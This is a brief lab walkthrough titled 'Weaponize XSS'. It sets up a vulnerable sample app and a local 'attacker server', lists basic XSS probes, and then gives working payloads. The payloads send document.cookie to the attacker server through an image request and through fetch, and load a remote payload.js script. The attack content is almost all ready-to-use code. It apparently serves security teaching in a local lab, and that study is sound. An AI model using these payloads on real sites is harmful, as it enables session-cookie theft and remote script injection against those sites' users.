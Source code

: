 Weaponize XSS 
---

# Preparation 

setup target 

```shell
git clone git://github.com/auth0-blog/xss-sample-app
cd xss-sample-app
npm install 
node server.js
cd ..
```

setup attacker server 

```
python -m http.server 5000
```

# Identify XSS 

```
<script>alert(1)</script>
<img src=x onerror=alert(1)>
```

# Weaponize

exfiltrate 

```
<script>var i=new Image; i.src="http://localhost:5000/?"+ document.cookie</script>
<script>fetch(`http://localhost:5000/?data=${document.cookie}`)</script>
```

payload

```
<script src="http://localhost:5000/payload.js"></script>
```